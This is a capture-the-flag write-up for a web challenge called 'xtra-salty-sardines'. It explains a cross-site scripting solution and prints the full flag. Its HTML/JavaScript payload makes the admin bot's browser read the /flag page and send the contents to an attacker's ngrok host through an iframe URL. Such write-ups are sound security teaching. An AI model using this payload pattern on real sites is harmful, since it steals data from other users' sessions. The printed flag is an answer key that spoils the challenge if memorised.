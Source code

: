 #### Challenge:

Clam was intensely brainstorming new challenge ideas, when his stomach growled! He opened his favorite tin of salty sardines, took a bite out of them, and then got a revolutionary new challenge idea. What if he wrote [a site with an extremely suggestive acronym](https://xtra-salty-sardines.web.actf.co)?

[Source](./index.js ":ignore"), [Admin Bot](https://admin-bot.actf.co/xtra-salty-sardines)

---

#### Solution:
Cross site scripting - You can submit content that will be put in div and the bot that has access to the flag will visit the page. We create free public DNS
to our machine and set up basic http server to see incoming request. Next we create payload that will run XMLHttpRequest to our local server.


```html
<>"'
<iframe id="if" src=""></iframe>
<script>
document.addEventListener("DOMContentLoaded", function () {
/* MY PUBLIC IP */
const PUBLIC_IP = "https://3aba-178-40-212-78.eu.ngrok.io/test?flag=" 
let xhr = new XMLHttpRequest();
xhr.open("get", "https://xtra-salty-sardines.web.actf.co/flag");
xhr.send();
xhr.onload = function () {
    var flag = xhr.response;
    document.getElementById("if").src = (PUBLIC_IP + flag );
}

    
});

</script>
<h1>
```

---

<details><summary>FLAG:</summary>

```
actf{those_sardines_are_yummy_yummy_in_my_tummy}
```

</details>
<br/>
